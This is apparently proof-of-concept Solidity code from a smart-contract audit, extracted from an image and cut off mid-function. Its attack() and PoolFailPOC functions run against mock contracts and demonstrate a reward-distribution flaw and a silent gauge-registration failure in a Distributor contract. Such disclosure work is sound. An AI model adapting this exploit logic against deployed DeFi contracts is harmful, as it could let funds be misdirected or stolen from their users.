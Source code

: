 ```

    constructor() {
        supply_gauge = new MockIncentiveController(10e18);
        borrow_gauge = new MockIncentiveController(10e18);
        lending_gauge = new LendingPoolGauge(address(supply_gauge), address(borrow_gauge));
        zero = new Zero();
        d = new Distributor(zero);
        zero.transfer(address(d), 100e18);
    }

    function attack() external {
        d.set_claimable(address(lending_gauge), 30e18);
        d.distribute(address(lending_gauge));

        require(zero.balanceOf(address(supply_gauge)) == 7.5e18);
        require(zero.balanceOf(address(borrow_gauge)) == 0);

        require(d.claimable(address(lending_gauge)) == 30e18);        
    }

    function PoolFailPOC() external {
        require(d.pools().length == 0);
        d.registerGauge(address(0), address(1));
        require(d.pools().length == 0);

    }
}

contract DummyGauge {

    function notifyRewardAmount(
        address token,
        uint256 amount
    ) external returns (bool) {
        IERC20(token).transferFrom(msg.sender, address(this), amount);    
    }
}


contract DistributorEx {
    uint256 public totalWeight; // total voting weight
    mapping(address => uint256) public weights; // pool => weight
    address[] internal _pools; // all pools viable for incentives
    mapping(address => address) public gauges; // pool => gauge

    function setup() external {
        totalWeight = 2e18;
        _pools = new address[](2);
        _pools[0] = address(0x1111);
        _pools[1] = address(0x1112);
        weights[address(0x1111)] = 1e18;
        weights[address(0x1112)] = 1e18;
        gauges[address(0x1111)] = address(new DummyGauge());
        gauges[address(0x1112)] = address(new DummyGauge());

    }

    function distributeEx(
    address token,
    uint256 start,
    uint256 finish
    ) public {
        uint256 _balance = IERC20(token).balanceOf(address(this));
```
